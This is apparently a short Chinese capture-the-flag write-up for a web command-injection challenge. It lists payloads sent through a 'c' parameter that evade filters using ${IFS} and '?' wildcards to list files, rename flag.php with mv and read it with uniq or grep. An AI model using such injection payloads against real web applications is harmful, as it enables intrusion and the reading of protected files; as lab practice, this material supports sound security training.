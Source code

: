 官方：`/bin/?at${IFS}f???????`

先直接`?c=ls`，得到`flag.php index.php`



解法一：

使用使用mv命令把flag文件重命名，再使用uniq查看a.txt（如果第二步看不到，请右键查看文件源代码）

第一步：`?c=mv${IFS}fla?.php${IFS}a.txt`
第二步：`c=uniq${IFS}a.txt` ，其实直接访问a.txt也行

这儿有两个新东西，第一个是`mv`命令，第二个是`uniq`。



解法二：`?c=grep${IFS}%27fla%27${IFS}f???????%0a`

菜鸟教程的grep：[Linux grep 命令](https://www.runoob.com/linux/linux-comm-grep.html)



